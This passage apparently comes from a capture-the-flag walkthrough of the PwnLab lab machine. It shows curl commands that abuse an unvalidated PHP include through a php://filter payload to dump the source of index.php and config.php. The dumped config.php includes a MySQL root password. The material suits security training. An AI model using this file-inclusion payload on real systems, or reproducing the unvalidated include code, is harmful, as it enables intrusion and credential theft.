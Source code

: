 We can see in the index.php file that it includes any file without validating the input and adds the .php extension.

```bash
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=index" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee index.php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
        include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
        if (isset($_GET['page']))
        {
                include($_GET['page'].".php");
        }
        else
        {
                echo "Use this server to upload and share image files inside the intranet";
        }
?>
</center>
</body>
</html>
```

The config.php file contains the credentials to log into MySQL

```bash
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=config" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee config.php
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Listing the tables from the database Users.
